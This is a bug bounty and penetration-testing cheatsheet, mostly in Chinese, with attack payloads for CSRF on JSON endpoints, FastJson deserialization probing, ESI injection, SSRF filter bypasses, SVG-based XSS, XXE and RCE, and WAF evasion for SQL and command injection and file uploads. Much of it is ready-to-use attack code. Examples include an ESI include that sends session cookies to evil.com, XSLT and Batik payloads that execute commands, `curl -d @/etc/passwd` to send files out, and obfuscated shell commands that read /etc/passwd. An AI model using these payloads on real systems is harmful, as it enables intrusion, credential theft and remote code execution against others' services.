



- [BugBounty Cheatsheet](#bugbounty-cheatsheet)
  - [CSRF-Cheatsheet](#csrf-cheatsheet)
    - [JSON Post](#json-post)
      - [构造表单](#构造表单)
      - [XHR](#xhr)
      - [flash 307](#flash-307)
  - [Deserializable Cheatsheet](#deserializable-cheatsheet)
    - [FastJson](#fastjson)
      - [版本探测](#版本探测)
      - [AutoType探测](#autotype探测)
      - [依赖环境探测](#依赖环境探测)
      - [WAF Bypass](#waf-bypass)
    - [参考](#参考)
  - [ESI Inject Cheatsheet](#esi-inject-cheatsheet)
      - [SSRF](#ssrf)
      - [Bypass Client-Side XSS Filters](#bypass-client-side-xss-filters)
      - [Bypass the HttpOnly Cookie Flag](#bypass-the-httponly-cookie-flag)
      - [XXE(ddoS)](#xxeddos)
      - [ESI Inline Fragment](#esi-inline-fragment)
      - [XSLT To RCE](#xslt-to-rce)
      - [Header Injection and Limited SSRF (CVE-2019-2438)](#header-injection-and-limited-ssrf-cve-2019-2438)
      - [参考](#参考-1)
  - [Jetty-Cheatsheet](#jetty-cheatsheet)
    - [参考](#参考-2)
  - [SSRF-Cheatsheet](#ssrf-cheatsheet)
          - [AWS](#aws)
          - [进制转换](#进制转换)
          - [域名欺骗](#域名欺骗)
          - [编码大小写](#编码大小写)
          - [`@`绕过](#绕过)
          - [`##`绕过](#绕过-1)
          - [白名单子域名](#白名单子域名)
          - [302重定向](#302重定向)
          - [短地址](#短地址)
  - [SVG Cheatsheet](#svg-cheatsheet)
      - [Images](#images)
      - [The `<use>` tag](#the-use-tag)
      - [CSS](#css)
          - [CSS Stylesheet `<link>`](#css-stylesheet-link)
          - [CSS stylesheet via `@include`](#css-stylesheet-via-include)
          - [CSS Stylesheet via `<?xml-stylesheet?>`](#css-stylesheet-via-xml-stylesheet)
      - [XSLT](#xslt)
      - [Javascript](#javascript)
          - [Inline](#inline)
          - [External](#external)
          - [Inline in event](#inline-in-event)
      - [XXE](#xxe)
      - [`<foreignObject>`](#foreignobject)
      - [Other](#other)
          - [Text](#text)
      - [CVE-2022-38398 Apache XML Graphics Batik SSRF](#cve-2022-38398-apache-xml-graphics-batik-ssrf)
      - [CVE-2022-40146 Apache XML Graphics Batik RCE](#cve-2022-40146-apache-xml-graphics-batik-rce)
      - [参考](#参考-3)
  - [WAF-Cheatsheet](#waf-cheatsheet)
    - [漏洞类型](#漏洞类型)
      - [注入](#注入)
        - [Mysql](#mysql)
        - [SqlServer](#sqlserver)
      - [文件上传](#文件上传)
        - [前端JS过滤](#前端js过滤)
        - [MIME类型](#mime类型)
        - [解析漏洞](#解析漏洞)
        - [0x00截断](#0x00截断)
        - [文件内容头校验（GIF89a)](#文件内容头校验gif89a)
        - [二次包含](#二次包含)
        - [防御](#防御)
      - [SSRF](#ssrf-1)
        - [编码](#编码)
        - [瞄点符号](#瞄点符号)
        - [高信域名重定向](#高信域名重定向)
        - [添加端口](#添加端口)
        - [短链接](#短链接)
        - [302跳转](#302跳转)
        - [防御](#防御-1)
      - [命令注入](#命令注入)
        - [Linux](#linux)
        - [通配符](#通配符)
        - [字符串拼接](#字符串拼接)
        - [\\ (回车)](#-回车)
        - [curl -d](#curl--d)
        - [反引号](#反引号)
        - [大括号](#大括号)
      - [Windows](#windows)
        - [特殊符号](#特殊符号)
        - [set变量](#set变量)
        - [切割字符串](#切割字符串)
      - [XSS](#xss)
    - [WAF类型](#waf类型)
      - [通用](#通用)
        - [大小写绕过](#大小写绕过)
        - [注释符绕过](#注释符绕过)
        - [编码绕过](#编码绕过)
        - [分块传输](#分块传输)
        - [使用空字节绕过](#使用空字节绕过)
        - [关键字替换绕过](#关键字替换绕过)
        - [http协议覆盖绕过](#http协议覆盖绕过)
        - [白名单IP绕过](#白名单ip绕过)
        - [真实IP绕过](#真实ip绕过)
        - [参数污染](#参数污染)
        - [溢出waf绕过](#溢出waf绕过)
        - [畸形数据包](#畸形数据包)
      - [云锁](#云锁)
    - [参考](#参考-4)
  - [Json Cheatsheet](#json-cheatsheet)
    - [响应注入](#响应注入)
  - [XSS Cheatsheet](#xss-cheatsheet)
    - [PDF XSS](#pdf-xss)

# BugBounty Cheatsheet
## CSRF-Cheatsheet
### JSON Post
#### 构造表单
Post JSON数据格式的数据需要构造表单,把post数据作为参数名发送,最后还需要闭合多余的字符.  
`<input type="hidden" name='{"data":"300016001555","test":"' value='test"}' />`
但表单无法设置Content-Type为application/json,如果服务端校验Content-Type则会拒绝该请求.
#### XHR
可以使用XHR提交来设置Content-Type,但该方式会先发生OPTIONS请求,要求服务端不会对该OPTIONS请求的Content-Type做检验,同时需要CORS.
```html
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://www.xxxxx.com/AAA", true);
        xhr.setRequestHeader("Accept", "*/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
        xhr.withCredentials = true;
        xhr.send(JSON.stringify({"data":"300016001555","test":"test"});
    }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();"/>
    </form>
  </body>
</html>
```

#### flash 307
通过Flash的跨域和307跳转来绕过限制,307跳转会保持原请求原封不动的进行转发,还是会受到CORS的限制.  
https://github.com/appsecco/json-flash-csrf-poc

## Deserializable Cheatsheet
### FastJson
#### 版本探测
遇到`{`和`,`会抛出版本信息.
```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
{{"@type":"java.net.URL","val":"http://dnslog.com"}:"a"}
{"@type":"java.lang.AutoCloseable"
```   
  
1.2.47
```json
{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.68
```json
{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.80
```json
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"first.dnslog.com"}}},
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"second.dnslog.com"}}}
```
#### AutoType探测
1.x版本中,当使用`parse(String text)`或者`parseObject(String text)`时
```json
{"@type":"aaaa"}
```
  
但在2.x版本,`parseObject`不再反序列化.
#### 依赖环境探测
```json
{"@type":"java.lang.Class","val":${class}}
```
```
org.springframework.web.bind.annotation.RequestMapping spring
org.apache.catalina.startup.Tomcat tomcat
groovy.lang.GroovyShell groovy
com.mysql.jdbc.Driver mysql
java.net.http.HttpClient java 11
```
```json
{"@type":"java.net.Inet4Address", "val":{"@type":"java.lang.String" {"@type":"java.util.Locale", "val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type": "java.lang.String""@type":"java.util.Locale", "language":{"@type":"java.lang.String" {1:{"@type":"java.lang.Class","val":"TARGET_CLASS"}}, "country":"x.l56y7u6g.dnslog.pw" 
```
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}
```
#### WAF Bypass
编码:base64,Quoted-printable,unicode  
payload: {"@type":"com.sun.rowset.JdbcRowSetImpl"}  
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: Base64
eyJAdHlwZSI6ImNvbS5zdW4ucm93c2V0LkpkYmNSb3dTZXRJbXBsIn0=
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: quoted-printable
=7B=22=40type=22=3A=22com.sun.rowset.JdbcRowSetImpl=22=7D
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```json
{,new:[NaN,x'00',{,/*}*/'\x40\u0074\x79\u0070\x65':xjava.langAutoCloseable"  
```
垃圾字符:
```
[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,...,{'\x40\u0074\x79\u0070\x65':xjava.lang.AutoCloseable"
...
]]]]]
```

### 参考
[Hacking JSON KCon2022](https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf)  
https://b1ue.cn/archives/402.html
## ESI Inject Cheatsheet
#### SSRF
```html
<esi:include src="http://evil.com/ping/" />
```
#### Bypass Client-Side XSS Filters
```html
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>
>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
```http
GET /index.php?msg=<esi:include src="http://evil.com/poc.html" />
```
poc.html:
```js
<script>alert(1)</script>
```
#### Bypass the HttpOnly Cookie Flag
```html
<esi:include src="http://evil.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
#### XXE(ddoS)
```html
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```
poc.xsl
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```
#### ESI Inline Fragment
```html
<esi:inline name="/attack.html" fetchable="yes">
<script>prompt('Malicious script')</script>
</esi:inline>
```
#### XSLT To RCE
```html
<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
</esi:include>
```
esi.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[touch /tmp/pwned]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
#### Header Injection and Limited SSRF (CVE-2019-2438)
```html
<esi:include src="/page_from_another_host.htm">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```
#### 参考
https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/  
https://docs.oracle.com/cd/B14099_19/caching.1012/b14046/esi.htm##i642458  
https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/
## Jetty-Cheatsheet
### 参考
https://xz.aliyun.com/t/11821  
https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/
## SSRF-Cheatsheet
###### AWS
URL:http://169.254.169.254/user-data/
###### 进制转换
127.0.0.1 -> 2130706433 -> 017700000001 -> 127.1
###### 域名欺骗
将恶意域名的ip解析为127.0.0.1。Tools:spoofed.burpcollaborator.net
###### 编码大小写
将关键字符url编码或大小写混淆。
###### `@`绕过
一些白名单中只是匹配了url的起始或者是否包含某些白名单关键字,可以使用url的一些来绕过.
* 通过RFC标准,url`@`前面的部分将会被视为用户密码,而`@`后面的部分才会被视为目标服务器. 
`https://whitelist-host@evil-host`
###### `##`绕过
* 通过`##`锚点在恶意host中加入白名单host.
`https://evil-host##whitelist-host`
###### 白名单子域名
在自己的域名下注册一个白名单host的恶意子域名.
* `https://whitelist-host.evil-host`
###### 302重定向
因为很多防御措施都是在请求前对路径进行过滤和检测,如果该SSRF漏洞后端支持重定向的话则可以利用重定向来绕过很多黑名单,如果应用自身就存在Openredirection漏洞的话也可以绕过大部分白名单,先请求一个合法的远程服务器,通过控制远程服务器返回302状态码在location Header来再次请求任意地址.  

php快速搭建302跳转服务器,默认执行-t指定目录下的index.php.  
`php -s localhost:80 -t ./`  
```php
<?php
Header('Location: http://localhost:8080/console')
?>
```
###### 短地址
百度短地址等等

## SVG Cheatsheet
#### Images
SVG can include external images directly via the `<image>` tag.

``` xml
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="https://example.com/image.jpg" height="200" width="200"/>
</svg>
```

Note that you can use this to include *other SVG* images too.

#### The `<use>` tag

SVG can include external SVG content via the `<use>` tag.

file1.svg:
``` xml
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <use xlink:href="https://example.com/file2.svg##foo"/>
</svg>
```

file2.svg:
```
<svg width="200" height="200"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
</svg>
```

#### CSS

###### CSS Stylesheet `<link>`

SVG can include external stylesheets via the `<link>` tag, just like html.

``` xml
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
	<link xmlns="http://www.w3.org/1999/xhtml" rel="stylesheet" href="http://example.com/style.css" type="text/css"/>
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
</svg>
```

###### CSS stylesheet via `@include`

``` xml
<svg xmlns="http://www.w3.org/2000/svg">
  <style>
    @import url(http://example.com/style.css);
  </style>
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
</svg>
```

###### CSS Stylesheet via `<?xml-stylesheet?>`

``` xml
<?xml-stylesheet href="http://example.com/style.css"?>
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
</svg>
```

#### XSLT

SVGs can include XSLT stylesheets via `<?xml-stylesheet?>`. Surprisingly, this does seem to work in chrome.

``` xml
<?xml version="1.0" ?>
<?xml-stylesheet href="https://example.com/style.xsl" type="text/xsl" ?>
<svg width="10cm" height="5cm"
     xmlns="http://www.w3.org/2000/svg">
  <rect x="2cm" y="1cm" width="6cm" height="3cm"/>
</svg>
```

``` xml
<?xml version="1.0"?>

<xsl:stylesheet version="1.0"
                xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns="http://www.w3.org/2000/svg"
        xmlns:svg="http://www.w3.org/2000/svg">
  <xsl:output
      method="xml"
      indent="yes"
      standalone="no"
      doctype-public="-//W3C//DTD SVG 1.1//EN"
      doctype-system="http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"
      media-type="image/svg" />

  <xsl:template match="/svg:svg">
    <svg width="10cm" height="5cm"
       xmlns="http://www.w3.org/2000/svg">
    <rect x="2cm" y="1cm" width="6cm" height="3cm" fill="red"/>
  </svg>
  </xsl:template>
</xsl:stylesheet>
```

Note: due to the nature of XSLT, the input doesn't actually *have* to be a valid SVG file if the xml-stylesheet is ignored, but it's useful to bypass filters. 

Also, Because I have no interest in learning XSLT, this template just wholesale replaces the entire "old" image with the new one.

#### Javascript

###### Inline

SVG can natively include inline javascript, just like HTML.

``` xml
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
  <script type="text/javascript">
    // <![CDATA[
      document.getElementById("foo").setAttribute("fill", "blue");
   // ]]>
  </script>
</svg>
```

###### External

SVG can also include external scripts.

``` xml
<svg width="100%" height="100%" viewBox="0 0 100 100"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo" o="foo"/>
  <script src="http://example.com/script.js" type="text/javascript"/>
</svg>

```

###### Inline in event

SVG can also have inline event handlers that get executed onload.

``` xml
<svg width="100%" height="100%" viewBox="0 0 100 100"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo" o="foo"/>
  <image xlink:href="https://example.com/foo.jpg" height="200" width="200" onload="document.getElementById('foo').setAttribute('fill', 'blue');"/>
</svg>
```

You can also bind handlers to animations and some other events. Read the SVG spec.

#### XXE

Because SVG is XML, it can also have XXEs:

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" [
  <!-- an internal subset can be embedded here -->
  <!ENTITY xxe SYSTEM "https://example.com/foo.txt">
]>
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <text x="20" y="35">My &xxe;</text>
</svg>
```

#### `<foreignObject>`

The `<foreignObject>` tag is insane. It can be used to include arbitrary (X)HTML in an SVG.

For example, to include an iframe:

``` xml
<svg width="500" height="500"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>

  <foreignObject width="500" height="500">
    <iframe xmlns="http://www.w3.org/1999/xhtml" src="http://example.com/"/>
  </foreignObject>
</svg>
```

If you don't have network access (e.g. sandbox) you can put a data URI or a javascript uri as the target of the iframe:

``` xml
<svg width="500" height="500"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>

  <foreignObject width="500" height="500">
     <iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
k   <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
  </foreignObject>
</svg>
```

If you haven't had enough SVGs, you can also include more SVGs via the `<object>` or `<embed>` tags. I think probably it's theoretically possible to put Flash in there too.

Note that also because you're in a different XML namespace, anything that stripped only `svg:script` might not have stripped `html:script` (or similar for attributes).

#### Other

It's possible to include external fonts if you ever wanted to do that, I think both via CSS and via native attributes. This isn't really useful though because webfonts require CORS for some reason I don't really understand related to DRM for font resources to prevent hotlinking. I guess sometimes there are font engine vulnerabilities though.

###### Text

This example from the SVG spec shows using a tref node to reference text by URI, however it doesn't seem to work in any viewer I've tried. If there is an implementation that supports it, it might also support external URIs for the href in the tref.

``` xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" 
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="10cm" height="3cm" viewBox="0 0 1000 300"
     xmlns="http://www.w3.org/2000/svg" version="1.1"
     xmlns:xlink="http://www.w3.org/1999/xlink">
  <defs>
    <text id="ReferencedText">
      Referenced character data
    </text>
  </defs>
  <desc>Example tref01 - inline vs reference text content</desc>
  <text x="100" y="100" font-size="45" fill="blue" >
    Inline character data
  </text>
  <text x="100" y="200" font-size="45" fill="red" >
    <tref xlink:href="##ReferencedText"/>
  </text>
  <!-- Show outline of canvas using 'rect' element -->
  <rect x="1" y="1" width="998" height="298"
        fill="none" stroke="blue" stroke-width="2" />
</svg>
```
#### CVE-2022-38398 Apache XML Graphics Batik SSRF
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="450" height="500" viewBox="0 0 450 500">
<image width="50" height="50 xlink:href="jar:http://gbvj631zwa8yh8ch6y0w2uxxiooec3.oastify.com/poc?poc=cve_2022_38398!/"></image>
</svg>
```
#### CVE-2022-40146 Apache XML Graphics Batik RCE
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="450" height="500" viewBox="0 0 450 500">
<script type="text/ecmascript">eval(''+new String(java.lang.Runtime.getRuntime().exec('calc.exe')));"</script>
</svg>
```
#### 参考  
https://github.com/allanlw/svg-cheatsheet 


## WAF-Cheatsheet
### 漏洞类型
#### 注入
##### Mysql
1. and -> %26(&)
2. , -> join
3. mysql版本大于5.6.x新增加的两个表**innodb_index_stats**和**innodb_table_stats**,主要是记录的最近数据库的变动记录,可用于代替informaiton_schema查询库名和表名.  
```sql
    select database_name from mysql.innodb_table_stats group by database_name;
    select table_name from mysql.innodb_table_stats where database_name=database();
```
4. 无列名注入,将目标字段与已知值联合查询,利用别名查询字段数据
```sql
    select group_concat(`2`) from (select 1,2 union select * from user)x 
```
5. 无列名注入,利用子查询一个字段一个字段进行大小比较进行布尔查询
```sql
    select ((select 1,0)>(select * from user limit 0,1))
```
6. 空白字符:09 0A 0B 0D A0 20
7. \`:select\`version\`();绕过空格和正则.
8. 点(.):在关键字前加点,`select-id-1+3.from qs_admins;`
9. @: `select@^1.from admins;`
##### SqlServer
1. IIS+sqlserver: IBM编码
2. 空白字符: 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
3. 百分号%:在ASP+IIS时,单独的%会被忽略,绕过关键字,`sel%ect * from admin`.
4. %u:asp+iis,aspx+iis,对关键字的某个字符进行Unicode编码.
#### 文件上传
##### 前端JS过滤
Burp抓包修改
##### MIME类型
针对根据MIME类型来确定文件类型的.
1. 修改Content-type类型绕过白名单或者黑名单. 
2. 直接删除Content-type.
##### 解析漏洞
1. Apache
2. IIS
3. Nginx
##### 0x00截断
php version < 5.2  
java jdk < 1.6
##### 文件内容头校验（GIF89a)
##### 二次包含
1. 只检测(jsp,php,aspx等后缀)的内容.
先上传包含恶意代码的txt等不会被检测的文件后缀,再上传一个正常的(jsp,php,aspx文件)来包含引用txt文件.
##### 防御
1. 上传目录不可执行
2. 白名单
3. 文件名随机数
#### SSRF
##### 编码
1. 双字编码
2. URL编码
3. 16进制编码
4. 8进制编码
##### 瞄点符号
`http://example.com/?url=http://google.com#http://example.com`
##### 高信域名重定向
`http://example.com/?url=http://abc.com/?redirect=https://google.com`
##### 添加端口
`127.0.0.1:80`
##### 短链接
1. 使用4m短网址或站长工具即可（短链接本质是302跳转）
2. is.gd可以自定义后缀的短网址
##### 302跳转
自动重定向
##### 防御
1. 白名单
2. 协议限制
3. 限制访问内网
4. 对响应进行验证
5. 防火墙规则限制
#### 命令注入
##### Linux
区别大小写
##### 通配符
`/???/c?t /?t?/p??swd` -> `cat /etc/passwd`
##### 字符串拼接
1. python,java: + 
2. php, perl: .
3. 
```
a=who
b=ami
ab
```
##### \ (回车)
1. `c\a\t /etc/passwd`
2. `c\ 回车 at /etc/passwd
##### curl -d
curl -d 参数能够读取本地文件  
`curl -d @/etc/passwd x.x.x.x:8080`
##### 反引号
```
``内的字符会被当成命令执行
```
##### 大括号
{}代替空格  
`{ls,-alt}`
#### Windows
不区分大小写
##### 特殊符号
这些符号不会影响命令执行,
1. "
2. ^ 
3. ()
```
whoami //正常执行
w"h"o"a"m"i //正常执行
w"h"o"a"m"i" //正常执行
wh"“oami //正常执行
wh”“o^am"i //正常执行
((((Whoam”"i)))) //正常执行
```
##### set变量
%%之间的变量会引用其值
```
set a=who
set b=ami
%a%%b%
```
##### 切割字符串
截取字符串:
%a:~0,6%,取变量a的0到6的值
#### XSS
### WAF类型
#### 通用
##### 大小写绕过
##### 注释符绕过
```
#
-- 
-- - 
--+ 
//
/**/
```
##### 编码绕过
1. IBM编码  

可识别IBM编码的场景
```
Nginx, uWSGl-Django-Python2 & 3
Apache-TOMCAT7/8- JVM1.6/1.8-JSP
Apache- PHP5 (mod_ php & FastCGI)
IIS (6, 7.5, 8, 10) on ASP Classic, ASP.NET and PHP7.1- FastCGI
```
2. url双编码
3. hex编码
4. base64
##### 分块传输
在HTTP Hader中加入` Transfer-Encoding: chunked`,表示采用分块编码,每个分块包含十六进制的长度值和数据，长度值独占一行，长度不包括它结尾的，也不包括分块数据结尾的，且最后需要用0独占一行表示结束。
利用分块传输来分割敏感关键字.
##### 使用空字节绕过
##### 关键字替换绕过
##### http协议覆盖绕过
1. 多boundary定义
在`Content-type: multipart/form-date`中定义多个`boundary`,导致waf检测范围和上传范围不一致.
2. 
##### 白名单IP绕过
针对白名单IP不做检测,而IP从HTTP Header中获取,通过XFF头等进行伪造.
##### 真实IP绕过
云WAF通过寻找真实IP绕过WAF
1. 多地点Ping
2. 子域C段
3. 邮件服务器
4. 信息泄露
5. DNS历史解析记录
6. SSRF
通过使用Connection: keep-alive 达到一次传输多个http包.
1. 将两个请求的request放在一起,并且都设置为`Connection: keep-alive`.
##### 参数污染
通常在一个请求中,同样名称的参数只会出现一次,但是在 HTTP 协议中是允许同样名称的参数出现多次的,通过对一个参数多次传值来绕过检测.  
常见场景:

1. 对多个相同参数只取其中一个.
2. 对多个相同的参数进行拼接.
##### 溢出waf绕过

##### 畸形数据包
主要利用WAF和服务器的解析差异,构造一个WAF不能正确识别但服务端可以识别的数据包.
1. 文件上传时,去掉filename的双引号,导致WAF不能正确获取到文件上传的后缀,但服务端却可以得到正确的后缀.
```
Content-Disposition: form-data; name="file"; filename=1.jsp
```
2. 用多参数或者无效数据填充文件内容或者文件名，超出WAF的检测限制范围，从而绕过检测.
#### 云锁
1. #后面的默认为注释,不进行检查,`?id=1#' union select user()--+`即可

### 参考
https://mp.weixin.qq.com/s/OcIaKAgZquQnf7_-TnTcwQ
https://mp.weixin.qq.com/s/Mgo6Gvel9V0mxpsNIq1GlQ
https://blog.csdn.net/qq_41874930/article/details/115229870
https://blog.csdn.net/hackzkaq/article/details/108981610
https://xz.aliyun.com/t/10560
## Json Cheatsheet
### 响应注入
payload: `"%0a"aaa":"bbb`
## XSS Cheatsheet
### PDF XSS
通过上传嵌入js代码的pdf文件进行XSS.  
https://github.com/ynsmroztas/pdfsvgxsspayload/blob/main/poc.pdf